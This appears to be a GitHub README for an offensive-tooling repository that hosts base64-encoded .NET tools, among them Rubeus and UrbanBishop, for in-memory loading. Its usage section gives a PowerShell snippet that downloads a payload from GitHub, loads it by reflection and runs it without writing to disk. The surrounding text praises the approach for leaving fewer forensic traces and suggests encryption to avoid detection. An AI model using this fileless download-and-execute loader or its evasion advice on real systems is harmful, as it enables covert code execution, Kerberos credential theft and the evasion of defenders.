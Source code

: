 # LookingSharp
This repository has been created to hold all the .net binaries used for Reflection Assembly loading. For this to work the host has to be able to access githubusercontent.com. The reason for adding the Powershell v1.0 is because syswow64 lets you run 32 bit system executables from 64 bit code. Sysnative lets you run 64 bit system executables from 32 bit code.

# Tools currently available:
- ProcessManager
- Rubeus
- UrbanBishop

# Usage:
```
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
$content = (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/felixguerrero12/LookingSharp/master/txt/ProcessManager.txt')
$ProcessManagerAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($content))
[ProcessManager.Program]::Main("".Split())
```

The above removes steps of downloading the binary and converting it into Assembly. Removes the binary from going on-disk and straight into memory. Operationally its a little bit cleaner on system forensics - If network capture is enabled on the environment the technique can be identified. You can add some sort of encryption to avoid detection.

Disclaimer: The things you do with the tools in this repository are only liable with the offending operator(s).
